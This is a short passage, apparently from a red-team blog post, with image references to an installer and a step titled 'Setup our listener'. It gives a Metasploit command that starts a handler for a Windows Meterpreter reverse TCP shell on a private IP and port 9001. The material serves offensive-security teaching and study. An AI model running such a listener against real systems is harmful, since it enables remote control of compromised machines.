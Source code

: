 <img src="/posts/2024-06-11_red_team06/images/asanainstaller2.png">


- Setup our listener

```bash
msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST 192.168.1.71;set LPORT 9001; set EXITFUNC thread; set EXITONSESSION false; exploit -j" 2>&1
```

<img src="/posts/2024-06-11_red_team06/images/listener.png">
